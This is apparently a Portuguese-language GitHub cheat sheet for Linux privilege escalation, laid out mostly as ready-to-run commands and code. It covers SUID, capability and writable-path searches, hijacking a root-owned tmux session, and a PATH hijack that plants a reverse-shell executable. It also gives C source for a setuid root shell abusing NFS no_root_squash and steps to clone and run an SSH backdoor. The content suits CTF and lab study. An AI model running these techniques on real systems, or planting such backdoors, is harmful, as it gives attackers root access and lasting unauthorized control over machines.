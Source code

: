 https://github.com/Herick-Costa/LinRPE/blob/main/LinRPE.sh


# 🔎 Busca de Arquivos e Permissões

## 📂 Busca de arquivos específicos
```bash
find / -name flag2.txt 2>/dev/null
find / -type f -name "*key.txt" 2>/dev/null
dir C:\ /s /b | findstr /i "root.txt"
```
## 🔐 Arquivos com permissões SUID/SGID
```bash
find / -perm -u=s -type f 2>/dev/null
find / -perm -4000 -type f 2>/dev/null
find / -type f -perm -04000 -ls 2>/dev/null
find / -perm -u=s -type f -ls 2>/dev/null
```

## ⚙️ Executáveis específicos
### 📌 Executáveis do root
```bash
find / -type f -perm -4000 -group $(id -gn) 2>/dev/null
```

### 📌 Executáveis em grupos
```bash
find / -group <nome_do_grupo> -type f -executable 2>/dev/null
```

## 📁 Pastas graváveis
```bash
find / -writable 2>/dev/null
find / -writable 2>/dev/null | cut -d "/" -f 2 | sort -u
find / -writable 2>/dev/null | grep usr | cut -d "/" -f 2,3 | sort -u
```
---

# 🚀 Escalonamento de Privilégios

# 🔍 Capacidades (Capabilities)
```bash
getcap -r / 2>/dev/null
```

---

# ⏳ Cronjobs
```bash
cat /etc/crontab
```

---

# 🛠 Ferramentas e Recursos

## Verificação de processos | PS
```bash
ps -eo pid,ppid,user,cmd
```
### Executando linpeas na sessão 'Processes whose PPID belongs to a different user (not root)
![image](https://github.com/user-attachments/assets/dee4c2cb-0f09-4917-aae8-281ce16d13a3)

### Exemplo onde encontramos o tmux iniciado por user rodando como root (no linpeas mostra o 2385)
```bash
ps -eo pid,ppid,user,cmd | grep 2385 
```
![image](https://github.com/user-attachments/assets/abd1eb08-1c16-4870-b72a-768ba19084d2)

```bash
tmux ls  
```
![image](https://github.com/user-attachments/assets/2bd3fdac-aef5-4c16-b9d2-4c495cba095f)

### Tomando conta:
```bash
tmux attach-session -t 0  
```

## 📌 Exploração de PATH
### 🔍 Examinando o PATH
```bash
echo $PATH
export PATH=/tmp:$PATH
export PATH=/tmp
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:$PATH
```

### 🔹 Estratégia
1. Verificar quais pastas no `$PATH` são graváveis.
2. Adicionar um executável falso em `/tmp` com uma shell reversa.

## 🖧 NFS (Network File System)
### 🔍 Configuração crítica
Verifique no `/etc/exports` a opção `no_root_squash`.

### 🛠 Procedimento
```bash
showmount -e <ip>
mkdir /tmp/v
mount -o rw <ip>:/tmp /tmp/v
```

### 📝 Código para exploração
```c
#include <unistd.h>
#include <stdlib.h>

int main() {
    setgid(0);
    setuid(0);
    system("/bin/bash");
    return 0;
}
```

```bash
gcc nfs.c -o nfs -w -static
chmod +s nfs
```

# 🛠 SSH Backdoor
```bash
git clone https://github.com/NinjaJc01/ssh-backdoor
cd ssh-backdoor
ssh-keygen
id_rsa
chmod +x backdoor
./backdoor -a
```
---

# 🛠 Expondo Serviços com Túneis SSH Reversos

## 📌 Listar portas em uso
```bash
ss -tulpn
```

## Cache ARP – Últimos IPs na rede local
```bash
ip neigh show
```
Exemplo de saída:

Copiar
Editar
192.168.0.12 dev eth0 lladdr 00:11:22:33:44:55 REACHABLE
Isso mostra IPs que sua máquina descobriu via rede local recentemente (ainda que não esteja mais se comunicando).

# 🔥 Melhorando Shells

## 🐧Linux
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```
```bash
export TERM=xterm
^Z
stty raw -echo; fg
reset
```
```bash
script /dev/null
/bin/sh -i
```
